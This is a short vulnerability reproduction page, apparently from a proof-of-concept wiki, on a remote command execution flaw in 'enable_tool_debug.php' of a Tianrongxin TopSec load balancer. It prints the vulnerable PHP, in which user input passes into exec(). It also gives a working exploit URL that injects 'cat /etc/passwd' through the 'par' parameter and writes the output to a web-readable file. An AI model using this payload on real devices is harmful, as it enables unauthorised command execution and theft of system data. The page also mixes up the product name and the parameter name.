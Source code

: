 # Tianrongxin TopApp-LB enable_tool_debug.php remote command execution vulnerability

## Vulnerability Description

Tianrongxin TopSec-LB enable_tool_debug.php file exists. Remote command execution vulnerability. The attacker can execute any command through command splicing.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tianrongxin TopSec-LB</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131402259.png)



The vulnerability file is `enable_tool_debug.php`

```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```

`runTool` in the `commandWrapper.inc` file

```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}
```

Here, set var=0, tool=1, and then perform command splicing to cause remote command execution

```plain
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131402375.png)